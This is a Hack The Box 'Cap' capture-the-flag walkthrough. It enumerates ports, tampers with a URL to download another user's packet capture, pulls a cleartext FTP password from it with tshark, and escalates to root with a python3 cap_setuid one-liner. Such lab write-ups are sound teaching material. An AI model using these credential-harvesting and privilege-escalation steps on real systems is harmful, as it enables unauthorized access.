

# Cap 
___
_Diffeculty: EASY_</br>
___

+ kick starting with nmap we can find that the open ports are `21 22 80 `
+ noting unusal , testing ftp with anonymous login failed .
+ let's navigate to the main the website we find that the we are loged in by default as the user nathan and we have a few interesting options in a drop down menu.




+ you can go check them all , `IP config ` contains the output of ipconfig command , `network status` contains that od netstat this is interesting but not really helpfull as we can't manipulate that in any form .
+ the last option left is `security snapchot pcap...` ok , going there we can see 


+ intereting it looks like some packet capture functionality , but we can see we got 0 packets , and if you click download you can see that the pcap also contains 0 packets , the only left option for us is to maybe fuzz the url `/data/1` trying '/data/0' we get new value like this :
```
Data Type
	Value
Number of Packets
	72
Number of IP Packets
	69
Number of TCP Packets
	69
Number of UDP Packets
	0
```

+ nice now let's download this and see if we can find anything usefull , once downloaded you can open the file with wireshark or tshark 

+ using tshark you can see the content of the pcap with `tshark -r file.pcap`
+ looking around i found the creds for nathan 
```shell
╭─kali at kali in ~/CTF/HTB/cap
╰─○ tshark -r 0.pcap | grep FTP
   34   2.626895 192.168.196.16 → 192.168.196.1 FTP 76 Response: 220 (vsFTPd 3.0.3)
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
   42   5.432387 192.168.196.16 → 192.168.196.1 FTP 79 Response: 230 Login successful.
```
+ now let's log in and get the user flag.

+ next we need to become ROOT, to do so we need to get more informations about the machine , so get your linpeas.sh to the machine with python3 http.server or any  other method .

+ scrolling linpeas output you can see this line flaged with orange 

```shell
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
+ it looks like python has some strong capailities 'cap_setuid' which is capable to change the user uid for example to root
+ if you look it up on GTFOBins search for python and goo down to capabilites section all the way down , you'll find the line that will get us root,executing that:

```shell
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```
we goot roooot.

And that's pretty much it hope you enjoyed.